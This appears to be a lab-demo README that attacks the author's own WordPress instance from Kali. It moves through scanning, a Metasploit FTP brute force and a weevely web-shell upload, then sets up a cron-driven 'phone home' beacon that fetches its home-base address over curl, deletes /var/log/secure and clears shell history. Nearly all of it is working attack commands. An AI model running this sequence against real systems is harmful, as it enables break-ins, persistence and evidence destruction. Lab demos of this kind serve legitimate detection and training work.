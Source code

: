 # Attack the WP Instance from the KALI System

1. SSH into the Kali Instance and run the from command line run the following chunks of code:

```
sudo su
export TARGET_IP=3.15.211.63 # <--Set this to the External IP Address of the WP Instance
```

Perform a nmap scan

```
nmap -Pn -A -T4 $TARGET_IP
```

Use nikto to scan the Web Server

```
nikto -h $TARGET_IP
```

Set the WPscan API token. You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up. I purposely didn't want to save it to github or have it show in the recording of the demo.

```
bash
export $TOKEN=     #Set this variable to your API token
exit
```

Run wpscan on your wordpress instance

```
wpscan --url $TARGET_IP/wordpress --enumerate p --api-token $TOKEN
```

Fetch a password list and add the WordPress password to the bottom to allow the brute force attack to be successful. Use Metasploit to perform the brute forcing.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
head -n 15 ftp-betterdefaultpasslist.txt > passwordlist.txt
echo "root:password123456" >> passwordlist.txt
sed -i 's/:/ /' passwordlist.txt
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set BRUTEFORCE_SPEED 3; \
  set STOP_ON_SUCCESS true; set RHOSTS $TARGET_IP; \
  set USERPASS_FILE passwordlist.txt; run; exit"
```

Set up a web shell with the compromised FTP credential

```
git clone https://github.com/epinna/weevely3.git
apt-get install -y python3 python3-pip curl
cd weevely3/
pip3 install -r requirements.txt --upgrade
./weevely.py generate mypassword maint.php
ftp -inv $TARGET_IP <<EOF
user root password123456
passive
cd /var/www/html/wordpress/wp-content/plugins/
put maint.php
bye
EOF
./weevely.py http://$TARGET_IP/wordpress/wp-content/plugins/maint.php mypassword
```

Run these commands on the webshell

```
whoami
uname -a
:audit_etcpasswd
cd /var/www/html
:file_download wordpress-4.4.tar.gz file
cd /var/www/html/wordpress/wp-content/plugins
:net_scan 172.31.44.1-172.31.44.10 255.255.255.0 1-666
```

SSH back into the WP instance and as root, make a bot that phones home:
```
sudo su
rm -f /var/www/html/wordpress/wp-content/plugins/phone
cp /usr/bin/nmap /var/www/html/wordpress/wp-content/plugins/phone
cat << "EOF" > /sbin/phonehome
HOMEBASE=$(curl -s http://www.malwaredomainlist.com/updatescsv.php | head -n 1 | cut -d"," -f3 | tr -d "\42")
/var/www/html/wordpress/wp-content/plugins/phone -sT $HOMEBASE -p 666 >> /var/www/html/wordpress/wp-content/plugins/instant-web-highlighter/logs.txt
rm -f /var/log/secure
history -c
EOF
chmod +x /sbin/phonehome
touch /var/spool/cron/root
echo "*/5 * * * * /sbin/phonehome > /dev/null" >> /var/spool/cron/root
history -c
```

